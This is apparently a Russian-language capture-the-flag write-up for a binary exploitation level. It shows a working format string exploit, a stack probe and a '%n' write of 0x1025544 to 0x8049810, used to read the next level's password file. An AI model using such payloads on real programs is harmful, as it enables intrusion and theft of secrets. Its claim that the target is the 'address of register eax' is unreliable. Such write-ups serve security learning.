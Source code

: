## level4
![](../../docs/img/level4_1.png)

Из `main` у нас вызывается функция `n()`,

![](../../docs/img/level4_2.png)

где вызывается функция `p()`

![](../../docs/img/level4_3.png)

(с единственным вызовом — `printf()` и извлекается содержимое файла `level5/.pass` при совпадении регистра `eax` с числом `0x1025544` (16930116 в десятичной системе). Следовательно, этот регистр необходимо перезаписать, используя функцию `printf()`. Адрес регистра `eax` — `0x8049810`. Находим позицию буфера:

```sh
./level4 <<< $(python -c 'print "aaaa" + " %x" * 15')
```

Видим, что при данном выводе `aaaa` (`0x61616161`) находится на 12й позиции.

```
aaaa b7ff26b0 bffff754 b7fd0ff4 0 0 bffff718 804848d bffff510 200 b7fd1ac0 b7ff37d0 61616161 20782520 25207825 78252078
```

Для записи числа 16930116 используем модификатор `%x`. Итоговая команда:

```sh
./level4 <<< $(python -c 'print "\x10\x98\x04\x08" + "%16930112x" + "%12$n"')
```
